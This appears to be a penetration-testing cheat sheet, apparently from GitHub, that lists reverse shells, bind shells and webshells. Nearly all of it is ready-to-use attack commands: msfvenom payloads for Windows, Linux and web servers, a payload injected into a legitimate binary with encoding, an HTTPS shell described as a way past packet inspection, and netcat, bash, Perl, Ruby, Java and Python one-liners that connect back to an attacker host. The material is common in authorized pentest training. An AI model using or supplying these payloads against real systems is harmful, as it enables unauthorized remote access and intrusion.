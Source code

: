
Reverse-shells

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:
https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Msfvenom

There is an important difference between non-staged and staged payload. A non-staged shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

staged shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide up the payload. Meterpreter is a staged shell. First it sends some parts of it and sets up the connection, and then it sends some more. This can be caught with metasploit multi-handler but not with netcat.
Windows
Meterpreter

Standard meterpreter

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp

Meterpreter HTTPS

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe

Non-staged payload

msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe

use exploit/multi/handler
set payload windows/shell_reverse_tcp

Staged payload

msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe

This must be caught with metasploit. It does not work with netcat.

use exploit/multi/handler
set payload windows/shell/reverse_tcp

Inject payload into binary

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe

Linux
Binary

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf

Bash

0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Php

php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'

Netcat

Bind shell

#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe

Reverse shell

# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe

With -e flag

nc -e /bin/sh ATTACKING-IP 80

/bin/sh | nc ATTACKING-IP 80

Without -e flag

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p

Ncat

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -v 192.168.1.103 5555 --ssl

Telnet

rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

Perl

perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Ruby

ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Web-shells - Platform Independent
PHP

This php-shell is OS-independent. You can use it on both Linux and Windows.

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php

ASP

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp

WAR

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war

JSP

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp

